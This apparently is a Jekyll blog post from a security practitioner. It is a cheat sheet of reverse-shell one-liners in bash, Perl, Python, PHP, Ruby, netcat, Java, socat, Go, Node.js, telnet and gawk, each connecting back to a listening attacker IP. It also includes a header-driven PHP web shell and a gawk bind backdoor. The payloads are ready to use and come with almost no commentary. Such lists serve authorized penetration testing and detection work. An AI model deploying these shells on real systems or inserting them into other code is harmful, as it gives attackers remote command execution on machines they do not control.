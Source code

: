 ```yaml
---
layout: post
title:  "Reverse Shells"
date:   2021-01-19 14:00:00 +1100
category: tools
---
```


Mostly from [PentestMonkey](pentestmonkey.net) and [HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

### Bash
Some versions of bash can send you a reverse shell:

{% highlight shell %}
bash -i >& /dev/tcp/10.9.10.123/1234 0>&1
{% endhighlight %}

{% highlight shell %}
exec /bin/bash 0&0 2>&0
{% endhighlight %}

{% highlight shell %}
0<&196;exec 196<>/dev/tcp/10.9.10.123/1234; sh <&196 >&196 2>&196
{% endhighlight %}

{% highlight shell %}
exec 5<>/dev/tcp/10.9.10.123/80
cat <&5 | while read line; do $line 2>&5 >&5; done  
# or:
while read line 0<&5; do $line 2>&5 >&5; done
{% endhighlight %}

### PERL
{% highlight perl %}
perl -e 'use Socket;$i="10.9.10.123";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}


#### Perl Windows 
{% highlight perl %}
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.9.10.123:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -e 'use Socket;$i="10.9.10.123";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}

### Python
Works with python 2 or 3; substitute 'python3' if necessary

{% highlight python %}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.10.123",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

### PHP
This code assumes that the TCP connection uses file descriptor 3.  If it doesn’t work, try 4, 5, 6…

{% highlight php %}
php -r '$sock=fsockopen("10.9.10.123",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
{% endhighlight %}

{% highlight shell %}
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"10.9.10.123"/1234 0>&1'");?>
{% endhighlight %}

Base64 encrypted by @0xInfection:

{% highlight php %}
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
{% endhighlight %}

### Ruby
{% highlight ruby %}
ruby -rsocket -e'f=TCPSocket.open("10.9.10.123",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}

### Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

{% highlight shell %}
nc -e /bin/sh 10.9.10.123 1234
{% endhighlight %}

This one is gold:

{% highlight shell %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.123 1234 >/tmp/f
{% endhighlight %}

{% highlight shell %}
/bin/sh | nc 10.9.10.123 80
{% endhighlight %}

#### OpenBSD netcat
{% highlight shell %}
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
{% endhighlight %}

### Java
{% highlight java %}
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.9.10.123/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
{% endhighlight %}

### xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.9.10.123) on TCP port 6001.

{% highlight shell %}
xterm -display 10.9.10.123:1
{% endhighlight %}

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

{% highlight shell %}
Xnest :1
{% endhighlight %}

You’ll need to authorise the target to connect to you (command also run on your host):

{% highlight shell %}
xhost +targetip
{% endhighlight %}

### socat 
{% highlight shell %}
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
{% endhighlight %}

### Golang
{% highlight shell %}
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.9.10.123:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
{% endhighlight %}

### Node.js
{% highlight javascript %}
require('child_process').exec('bash -i >& /dev/tcp/10.9.10.123/80 0>&1');
{% endhighlight %}

### Telnet
{% highlight shell %}
rm -f /tmp/p; mknod /tmp/p p && telnet 10.9.10.123 80 0/tmp/p
{% endhighlight %}

{% highlight shell %}
telnet 10.9.10.123 80 | /bin/bash | telnet 10.9.10.123 443
{% endhighlight %}

Remember to listen on 443 on the attacking machine also.

### Gawk
{% highlight shell %}
gawk 'BEGIN {P=4444;S="> ";H="10.9.10.123";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
{% endhighlight %}

{% highlight shell %}
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
{% endhighlight %}
